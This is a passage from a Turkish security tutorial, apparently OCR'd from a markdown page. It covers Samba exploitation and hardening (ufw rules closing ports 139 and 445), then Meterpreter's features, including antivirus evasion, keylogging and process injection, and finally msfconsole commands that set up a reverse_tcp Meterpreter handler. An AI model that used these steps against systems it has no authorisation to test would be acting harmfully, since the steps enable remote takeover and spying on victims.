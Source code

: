 ```bash
```
Başarılı olursa, hedef sistem üzerinde shell erişimi (root yetkileriyle) sağlanabilir.

### 📌 4. Samba Güvenliğini Artırma
🔐 Eğer kendi sisteminizi korumak istiyorsanız:
### ✅ Samba sürümünüzü güncelleyin
```bash
sudo apt update && sudo apt upgrade samba -y
```
### ✅ Gereksiz Samba paylaşımlarını kapatın
✅ Güçlü parolalar ve kimlik doğrulama kullanın
✅ SMBv1 protokolünü devre dışı bırakın (Çünkü eski SMB sürümleri güvenlik riski taşır)
✅ Güvenlik duvarı ile SMB portlarını kapatın (139, 445)
```bash
sudo ufw deny 139/tcp
```
sudo ufw deny 445/tcp

### 🚀 Sonuç: Samba Exploit Kullanımı ve Güvenliği
### ✔ Eğer ağ güvenliği testi yapıyorsanız, eski Samba sürümlerindeki açıkları Nmap veya Metasploit ile analiz edebilirsiniz.
✔ Ancak, sistem güvenliğini sağlamak için daima güncellenmiş ve güvenli yapılandırılmış Samba sürümlerini kullanmalısınız.
_______________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________
### 🔍 Meterpreter Nedir?
Meterpreter, Metasploit Framework içinde kullanılan gelişmiş bir payload’dır.
📌 Hedef sisteme bulaştıktan sonra gizli ve esnek bir uzaktan kontrol (remote access) sağlar.
### 📌 1. Meterpreter'in Özellikleri
### ✅ Bellekte Çalışır – Diskte iz bırakmaz, antivirüs tarafından tespit edilmesi zordur.
✅ Interaktif Kabuk (Shell) – Hedef sistemde komut çalıştırmanıza olanak tanır.
✅ Dosya Yönetimi – Hedef sistemde dosya okuyabilir, yazabilir ve silebilirsiniz.
✅ Ekran ve Klavye Takibi – Keylogger ve ekran görüntüsü alma desteği vardır.
✅ Ağ Yönetimi – Hedef sistemin ağ bağlantılarını görebilir ve yönlendirebilirsiniz.
✅ Process Injection – Farklı işlemlere enjekte olarak tespit edilmesini zorlaştırır.

### 📌 2. Meterpreter Nasıl Kullanılır?
### 📌 Metasploit ile Meterpreter Kullanımı
1️⃣ Metasploit’i başlat:
```bash
msfconsole
```
#### 2️⃣ Bir exploit seç:
```bash
use exploit/multi/handler
```
#### 3️⃣ Payload olarak Meterpreter’i ayarla:
```bash
set payload windows/meterpreter/reverse_tcp
```
#### 4️⃣ Hedefin IP adresini belirle:
```bash
set LHOST 192.168.1.100
```
#### 5️⃣ Bağlantıyı dinlemeye başla:
```bash
exploit
```